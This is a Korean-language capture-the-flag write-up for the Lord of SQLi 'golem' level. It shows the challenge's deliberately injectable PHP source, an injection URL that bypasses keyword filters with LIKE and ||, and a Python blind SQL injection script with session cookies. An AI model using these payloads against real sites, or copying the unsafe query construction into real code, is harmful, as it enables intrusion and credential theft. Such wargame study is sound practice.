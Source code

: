 # Lord of SQLi - golem

> query : select id from prob_golem where id='guest' and pw=''

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe");
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysql_fetch_array(mysql_query($query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem");
  highlight_file(__FILE__);
?>
```

<br>

- or, and 논리연산자를 필터링하고있고 substr\( 와 = 연산자를 필터링하고있다.

- 결과의 pw값과 입력받은 pw의 값을 체크하는 것을 봐서 ***Blind SQLi*** 라는 것을 알수있다.
<br>

- LIKE연산과 \|\|을 이용하여 첫번째 쿼리문에서 비밀번호의 길이를 알아내자

> query : select id from prob_golem where id='guest' and pw='' || id LIKE 'admin' && length(pw) LIKE 8 #'

> URL : http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw=%27%20||%20id%20LIKE%20%27admin%27%20%26%26%20length(pw)%20LIKE%208%20%23

- 위의 쿼리와 URL을 통해 pw의 길이가 8인 것을 알 수 있다.

- pw의 길이를 8로 두고 python 코드를 작성해서 실행시켰다.

### payload

```python
#headers={'Host': 'los.eagle-jump.org', 'Cookie': 'PHPSESSID=vk15gvoskfe25pse40jh475fk6'}
import urllib
import urllib.request
length=8
pw=""
arr="1234567890qwertyuioplkjhgfdsazxcvbnmMNBVCXZASDFGHJKLPOIUYTREWQ"
MyHeader = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.101 Safari/537.36',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'Accept-Charset': 'ISO-8859-1,utf-8;q=0.7,*;q=0.3',
'Accept-Encoding': 'none',
'Accept-Language': 'en-US,en;q=0.8',
'Connection': 'keep-alive'}
MyCookies = {'PHPSESSID': 'gou96ajoj5ojb4jo443qd9gqd6','_cfduid':'db874ed463a1dda475cbf0410b0e3f66c1494392708'}
for i in range(1,9):
	for j in range(0,62):
		url="http://los.eagle-jump.org/golem_39f3348098ccda1e71a4650f40caa037.php?pw=' || id LIKE 'admin' %26%26 substring(pw,{0},1) LIKE '{ascii}' %23".format(i,ascii=arr[j])
		r = urllib.request.Request(url,headers=MyHeader)
		r.add_header("Cookie","PHPSESSID=ptu00rf0ggnk22t8t3gcdf9132")
		print(url)
		data = urllib.request.urlopen(r).read().decode("utf-8")
		if data.find('Hello admin') != -1 :
			pw = pw + arr[j]
			print(arr[j])
			break
print(pw)
```
